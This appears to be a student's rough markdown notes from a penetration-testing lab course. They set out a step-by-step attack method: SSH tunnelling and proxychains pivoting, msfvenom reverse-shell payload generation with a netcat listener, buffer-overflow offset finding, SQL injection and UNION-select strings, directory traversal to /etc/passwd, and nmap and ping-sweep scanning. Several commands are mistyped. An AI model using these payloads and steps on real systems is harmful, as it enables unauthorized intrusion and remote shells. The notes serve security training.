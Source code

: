 ## General Steps 1 to a Target ##

### STEP 1 ###

1. Gain initial access. 

        Use information gained from scanning, ping and what not to gain initial access to the system.

2. Find any other additional targets
        
        Post exploitation attacks , e.g. Situational Awareness, enumeration and escalation privilege. 

3. Pivot or go to the targets found in 2. 

## General Steps to a Target ##

Step 1. Create local tunnels to target point 

Step 2. Check ip addresses to the target points whether they are active or responsive 

Step 3. `cat /etc/hosts` or cat `/etc/passwd`see what's in there

Not sure about these here 

Move dynamic to An : ssh An@localhost –p 50511 –D 9050 -NT

Linoops proxychain `nmap –Pn 192.168.28.179`

RDP from An to Lh

Student@lin-ops ssh An@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

`Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f python`

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Pattern length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ `msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python`

Nc –lvp 4444

Proxychains ./whateverfile.py

Step 4. Perform nmap scans on targets to find attackers from linops

Step 5. Perfrom enumeration on the found target IP on port 80

Step 6. Change proxy settings on browser TODO: TAKE SCREENSHOTS OF HOW THE PROXY WEBSITES SHOULD LOOK LIKE!!!

Step 7. Perform SQL injections http://ip.address/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        Or enter the information on the login page 

Step 8. Enumerate the scripts on the website you logged in to to find any other information for login. http://ip.address/scripts or anything on here/. Find users e.g. user_mahlon and passwords 

Step 9. Perform directory traversals things like /etc/passwd pages and /etc/hosts 

Step 10. Use any information to login to the sites, ssh'ing to the respective sites e.g. user_mahlon@i-_address use the password found

Step 12: ls, cd to /etc/hosts /etc/passwd and other folders while looking for other targets say you find an ip address 192.6.6.6 called shenanigans.. get the hostname say the hostname is shenanigans_hostname 

Step 13. Login to the target and go to bash, e.g. type bash on terminal then scan for the ip e.g. `user_mahlon@shenanigans_hostname:/$ for i in {1..254};do (ping -c 1 192.6.$i | grep "bytes from" &); done` this will show what addresses are open. 181

Step 14. From the linops machine ssh dynamically to found hosts use user_mahlon

Step 15. From here you can run proxychains and nmap to find targets e.g. `student@lin-ops:~$ proxychains sudo nmap -sS -Pn 192.6.6.NumFOndin14 -p 1-2,3,4,5`

Step 16. Check for enum scripts and netbios using `nmap –Pn – 192.192.6.6.NumFOndin14 -sV`  or `nmap –Pn – 192.6.6.NumFOndinin14 --script -enum`

Step 17. Go to the http page and try and perfrom sql injection union selection reference table notes TODO: ASK INSTRUCTOR FOR A REVIEW ON THIS. 

Step 18. Add kizao prd = numberi saba union select table_schema, column_name, table_name FROM information_schema.columns. pick.php?product=6 or 1=1

Step 19. Step 13

Step 20. Perform escalation of privilege -> TODO: Review notes for post escalation privilege

## How to check IP addresses in a local network and whether they are active and responsive ##

So, in summary, the below script pings each IP address in the range 192.168.28.1 to 192.168.28.254 once and then searches for lines in the ping output that contain "bytes from." It does this for all IP addresses concurrently by running the grep command in the background for each ping. This is often used to quickly check which IP addresses in a local network are active and responsive.

student@lin-ops:~$ `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done`

## How to perform NMAP scan on the target from linops ##

student@lin-ops:~$ `sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080`

-sS: This option specifies to use TCP SYN scanning. In TCP SYN scanning, the tool sends SYN packets to the target ports to determine if they are open or closed. It's a common method for quickly identifying open ports.

-Pn: This option tells nmap not to perform host discovery. By default, nmap tries to determine if the host is up before scanning, but -Pn disables this and assumes the host is up.

When you run this command, nmap will send SYN packets to each of the specified ports on the target IP address 10.50.27.209 and determine whether they are open, closed, or filtered by a firewall. 

## How to perform enumeration on a target ##

student@lin-ops:~$ `nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse`

The purpose of this nmap command is to scan the target host 10.50.27.209 specifically for an HTTP service running on port 80 and to enumerate information about that service using the http-enum.nse script.

-Pn: This option tells nmap not to perform host discovery. It assumes that the host is up without checking. 

-sT: This option specifies to use TCP connect scanning (-sT). TCP connect scanning is a basic technique where nmap attempts to establish a full TCP connection with the target host on the specified port(s). It's a straightforward method for checking whether a port is open.
